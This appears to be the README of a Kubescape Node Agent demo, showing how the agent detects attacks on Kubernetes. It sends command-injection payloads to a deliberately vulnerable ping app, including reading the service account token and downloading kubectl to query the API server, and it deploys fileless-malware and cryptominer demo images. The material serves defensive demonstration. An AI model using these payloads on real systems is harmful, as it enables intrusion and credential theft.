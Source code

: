 # Node Agent Runtime Detection & Response Demo
This is a walkthrough of Node Agent Runtime Detection & Response capability, in this demo we will do the following:
1. Install Node Agent.
2. Deploy a sample web application and attack it.
3. Deploy fileless malware.
4. Deploy a container with malicious image that contains malwares.
5. See how Node Agent detects the attacks.

With this demo you will be able to see how Node Agent works and how it can be used to detect and prevent attacks.
To learn more about Node Agent, see [here](https://kubescape.io/docs/).

## Table of Contents

- [Installation](#installation)
- [Deploy Web Application](#deploy-web-application)
- [Attack Web Application](#attack-web-application)
- [Attack Fileless Malware](#attack-fileless-malware)
- [Attack Malicious Image](#attack-malicious-image)
- [Conclusion](#conclusion)


## Installation
To install Node Agent, you need to have a Kubernetes cluster up and running. In case you want to test it on your local machine you can use [Minikube](https://kubernetes.io/docs/tasks/tools/install-minikube/) or [Kind](https://kind.sigs.k8s.io/docs/user/quick-start/).

After you have a Kubernetes cluster up and running, you can install Node Agent by running the following commands:

```bash
git clone https://github.com/kubescape/node-agent.git && cd node-agent
# Assuming AlertManager is running in service  "alertmanager-operated" in namespace "monitoring"
helm repo add kubescape https://kubescape.github.io/helm-charts/ ; helm repo update ; helm upgrade --install kubescape kubescape/kubescape-operator -n kubescape --create-namespace --set clusterName=`kubectl config current-context` --set nodeAgent.config.alertManagerExporterUrls=alertmanager-operated.monitoring.svc.cluster.local:9093 --set nodeAgent.config.maxLearningPeriod=15m --set nodeAgent.config.learningPeriod=2m --set nodeAgent.config.updatePeriod=1m --set capabilities.runtimeDetection=enable
```

You should be getting alerts after the learning period ends. The learning period is the time Node Agent takes to learn the normal behavior of the cluster, during this period Node Agent will raise alerts only for malicious activities. After the learning period, Node Agent will raise alerts for both malicious and abnormal activities.

The learning period is configurable, you can change the values of `maxLearningPeriod`, `learningPeriod`, and `updatePeriod` in the helm chart. See [here](https://kubescape.io/docs/operator/relevancy/#enabling-relevancy) for more information.

Try `kubectl exec` on one of the Pods after the learning period to test out anomaly detection!

### Getting alerts

One of the ways to get alert from Node Agent is to connect it an AlertManager. If you don't have AlertManager running, you can install it by running the following commands:
```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update
helm install alertmanager prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

By default the Node Agent is exporting alerts to stdout, you can see the alerts by running the following command:
```bash
kubectl logs -n kubescape -l app=node-agent -f
```

In the above helm chart installation, we have connected Node Agent to AlertManager, you can see the alerts in AlertManager UI by going to `http://<node-ip>:9093`.

**Once you have Node Agent installed, let's deploy a sample web application and attack it.**

## Deploy Web Application

To deploy a sample web application, run the following commands:

```bash
chmod +x demo/general_attack/webapp/setup.sh
./demo/general_attack/webapp/setup.sh
```

This will deploy a sample web application and a service to expose it.
You can access the web application by using a web browser and going to `http://<node-ip>:8080`.
You should see the following page:
![Web Application](assets/webapp.png)

Once you have the web application up and running, let's attack it and see how Node Agent detects the attack.

## Attack Web Application

Our web application is deliberatly made vulnerable to a [command injection](https://owasp.org/www-community/attacks/Command_Injection) attack.
The application is a "Ping service", it allows the user to ping a host, and it will return the output of the ping command.
Let's try to ping `1.1.1.1` and see the output.

![Ping](assets/ping.png)

Behind the scenes, the application is taking the IP from the form as a string and concatenates it to a command. Since there is no proper input sanitization we can use this to run arbitrary commands on the web application container and get the output.

Let's try to execute the `ls` command on the web application container.

```bash
1.1.1.1;ls
```

Great! We can see the output of the `ls` command, but we can also see that Node Agent detected the attack and sent an alert to AlertManager.

![ls](assets/ls.png)

Navigate to AlertManager UI by going to `http://<node-ip>:9093` and you should see the following alert:
(You can also see the alert in the terminal where you ran `helm install`)
![AlertManager](assets/alertmanager.png)

We can see that Node Agent raised two alerts, one for the unexpected command execution and one for the unexpected file activity.
We can see the details of the alerts such as the command that was executed and the file that was accessed and on which workload.

Now, let's try to run a more malicious command, let's try to get the service account token.

```bash
1.1.1.1;cat /run/secrets/kubernetes.io/serviceaccount/token
```

We can see that Node Agent detected the attack and sent an alert to AlertManager.
![service accout token](assets/service-account-token.png)
Node Agent detected the attack because it has a rule that identifies access to the service account token.

Next, let's try to download kubectl into the container and run it to get the pods in the cluster.

Execute the following commands one by one:
```bash
# Get the architecture of the node
1.1.1.1;uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g'

# Download kubectl
1.1.1.1;curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/<node arch>/kubectl"

# Make kubectl executable
1.1.1.1;chmod +x kubectl

# Get the pods in the cluster
1.1.1.1;./kubectl --server https://kubernetes.default --insecure-skip-tls-verify --token $(cat /run/secrets/kubernetes.io/serviceaccount/token) get pods
```

You should see the following output:
![pods](assets/pods.png)

We can see that Node Agent detected the attack and sent an alert to AlertManager.
![kubectl](assets/kubectl.png)

Node Agent detected the attack because it has a rule that identifies kubernetes API server access from a container.

## Attack Fileless Malware
Let's deploy a fileless malware and see how Node Agent detects it.

To deploy the fileless malware, run the following commands:
This will deploy google's [demo-app](https://github.com/GoogleCloudPlatform/microservices-demo)
```bash
kubectl apply -f demo/fileless_exec/kubernetes-manifest.yaml
```
We have replaced one of the original images with a malicious image that runs a fileless malware.
Using the [ezuri crypter](https://github.com/guitmz/ezuri), we have encrypted the malware and embedded it in the image. (Don't worry, it doesn't run a real malicious malware 😉).

Let's see what has popped up in AlertManager.
![fileless malware](assets/fileless-malware.png)

We can see that Node Agent detected that an exec syscall was made from `/proc/self/fd/3` which is the file descriptor of the malware that resides in the container's memory.
This is a fileless malware, so we don't have any files to scan, but Node Agent still detected it.

## Attack Malicious Image
Let's deploy a container with malicious image that contains malwares such as [cryptominer](https://www.crowdstrike.com/blog/what-is-cryptomining/) and [webshell](https://owasp.org/www-community/attacks/Web_Shell).

We are going to be using [ruzickap malwares container](https://github.com/ruzickap/malware-cryptominer-container) to deploy a container with malwares.
To deploy the container, run the following command:
```bash
kubectl run malware-cryptominer --image=quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```
Or, alternatively, you can build the image yourself by running the following commands:
```bash
docker build -t malware-cryptominer -f malwares_image/Containerfile .
docker tag malware-cryptominer quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using minikube
minikube image load quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using kind
kind load docker-image quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```

Let's see what has popped up in AlertManager.
![malwares](assets/malwares.png)
We can see that Node Agent detected that the container is running a malicious image that contains malwares.
It also supplies the path to the malwares in the node's filesystem as well as the signatures of the malwares.
Node Agent uses [ClamAV](https://www.clamav.net/) to scan the images for malwares.
ClamAV is an open source antivirus engine for detecting trojans, viruses, malware & other malicious threats, it supports a wide range of signature languages including YARA and bytecode signatures.

Please note that Node Agent doesn't scan the images by default, you need to enable it by setting `capabilities.malwareDetection=enable` in the helm chart. See [here](https://kubescape.io/docs/) for more information.


## Conclusion
In this demo we saw how Node Agent can be used to detect and prevent attacks in Kubernetes.
We covered a few attacks, but Node Agent can detect many more attacks, see [here](https://kubescape.io/docs/) for the full list of supported rules and detection methods.
To learn more about Node Agent, see [here](../README.md).

If you have any questions, feel free to open an issue or contact us via [email](mailto:support@armosec.io) or [slack](https://cloud-native.slack.com/archives/C04EY3ZF9GE).

